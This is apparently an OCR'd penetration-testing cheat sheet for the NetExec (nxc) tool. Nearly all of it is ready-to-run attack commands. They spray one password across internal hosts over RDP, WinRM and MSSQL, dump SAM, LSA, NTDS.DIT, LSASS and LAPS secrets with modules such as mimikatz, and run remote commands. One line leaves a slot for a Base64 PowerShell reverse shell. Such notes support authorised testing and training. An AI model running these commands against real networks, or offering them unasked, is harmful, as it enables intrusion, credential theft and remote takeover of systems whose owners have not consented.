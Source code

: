 ```shell

# RDP
nxc rdp ips_internal.txt -u john -p 'Password123!' --continue-on-success
nxc rdp ips_internal.txt -u john -p 'Password123!' --continue-on-success --local-auth

# WinRM
nxc winrm ips_internal.txt -u john -p 'Password123!' --continue-on-success
nxc winrm ips_internal.txt -u john -p 'Password123!' --continue-on-success --local-auth

# MSSQL
nxc mssql ips_internal.txt -u john -p 'Password123!' --continue-on-success
nxc mssql ips_internal.txt -u john -p 'Password123!' --continue-on-success --local-auth
```

## nxc Dumping Credentials
```shell
# SAM
nxc smb 172.16.150.20 -u john -p 'Password123!' --sam

# LSA
nxc smb 172.16.150.20 -u john -p 'Password123!' --lsa

# NTDS.DIT RPC
nxc smb 172.16.150.20 -u john -p 'Password123!' --ntds

# NTDS.DIT VSS
nxc smb 172.16.150.20 -u john -p 'Password123!' --ntds vss

# LSASS
nxc smb 172.16.150.20 -u john -p 'Password123!' -M lsassy
nxc smb 172.16.150.20 -u john -p 'Password123!' -M mimikatz
nxc smb 172.16.150.20 -u john -p 'Password123!' -M nanodump
nxc smb 172.16.150.20 -u john -p 'Password123!' -M procdump

# LAPS Password
nxc ldap 172.16.150.20 -u john -p 'Password123!' -M laps -o computer=172.16.150.120
```

## nxc Command Execution
```shell
# CMD
nxc smb 172.16.150.20 -u john -p 'Password123!' -x "whoami"

# PowerShell
nxc smb 172.16.150.20 -u john -p 'Password123!' -x "whoami"

# MSSQL
nxc mssql 172.16.150.20 -u john -p 'Password123!' -x "whoami"
nxc mssql 172.16.150.20 -u john -p 'Password123!' -x "Enter PowerShell#3 (Base64) Reverse Shell from revshells.com here"
```
